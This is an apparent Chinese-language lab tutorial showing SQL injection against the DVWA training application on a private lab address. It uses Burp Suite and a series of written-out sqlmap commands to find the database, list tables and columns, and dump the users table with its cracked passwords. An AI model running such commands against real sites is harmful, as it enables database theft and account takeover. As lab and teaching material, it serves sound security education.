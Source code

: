 ## 使用Sqlmap对目标站点进行渗透攻击

**步骤1:打开测试站点DVWA的主页面，并设置其安全级别为 low，如图所示。**

![image-20230427180418586](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311457913.png)

**步骤2:单击左边的SQL Injection，打开图所示的界面。**

![image-20230427180710969](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311458802.png)

**步骤3:在`User ID`文本框中随意输入一串数字，比如123，同时开启Burp Suite的数据包捕获功能，如图所示。**

![image-20230427180748029](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311458206.png)

![image-20230427182012153](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311458610.png)



**步骤4:在Kali Linux虚拟机的命令行状态下运行Sqlmap，并输入语句**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --current-db
```

**第一次操作，user-ID建议换一个再提交一遍**

`-u`后面的内容来自上图数据包中 **Referer**后面的内容，**cookie**来自图中 **Cookie**后的内容。执行该语句，得到网站数据库的名称，如图所示。

![image-20230427214531813](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311458231.png)

![image-20230427214441776](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311458988.png)



**步骤5:在上述命令的基础上，后面加上`--tables`来探测该数据库中的表，如图所示。探测数据库表的结果如图所示**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --current-db --tables
```

![image-20230427214832914](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311458069.png)

**步骤6:针对其中的一个表users，猜测其中的字段。执行语句，得到的结果如图所示。**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --columns -T users
```

![image-20230427215216402](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311459683.png)



**步骤7:执行命令，对users表中所有字段的值进行探测**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --dump -T users
```

在探测过程中用到其自带的字典,得到的结果如图所示。

![image-20230427220148038](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311459422.png)

**步骤8:利用上述结果，登录DVWA网站主页进行验证，比如用户名为1337,密码为charley如图5所示**

![image-20230427220435673](https://raw.githubusercontent.com/yzl-eng/blogImage/main/img/202401311459058.png)